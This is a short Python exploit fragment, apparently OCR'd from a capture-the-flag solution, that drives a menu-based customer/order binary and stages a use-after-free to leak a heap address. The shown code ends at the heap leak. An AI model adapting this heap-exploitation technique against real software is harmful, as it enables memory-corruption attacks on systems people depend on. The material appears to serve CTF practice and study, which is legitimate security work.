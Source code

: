 ```python
    
def add_customer(name):
    cmd(b'1')
    arg(name)

def edit_name(idx, name):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'1')
    arg(name)
        
def change_des(idx, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'2')
    arg(des)
        
def add_order(idx, value, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'3')
    payload = value + des
    if len(des) == 0x50:
        p.sendafter(b': ', payload)
    else: 
        p.sendlineafter(b': ', payload)
        
def edit_order(idx, order_idx, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'4')
    arg(str(order_idx).encode())
    arg(des)  
          
def show(idx):
    cmd(b'3')
    arg(str(idx).encode())
    
def print_help(order=True):
    cmd(b'4')
    if order:
        cmd(b'1')
    else:
        cmd(b'2')

def free(idx):
    edit_name(idx, b'kkkk')
    print_help()

# pls use show() as a pause

# heap leak 
for i in range(10):
    add_customer(b'\x00')
edit_name(0, b'\x00'*0x10)  # put customers[0] at [rbp-0x70]
print_help()    # free customers[0]
# show(1)

add_order(1, b'0', b'got you')  # new order's buffer takes place of customers[0]
show(1)
p.recvuntil(b'Name')
p.recv(0x5e-4)
heap = u64(p.recv(8)) - 0x11ee8
```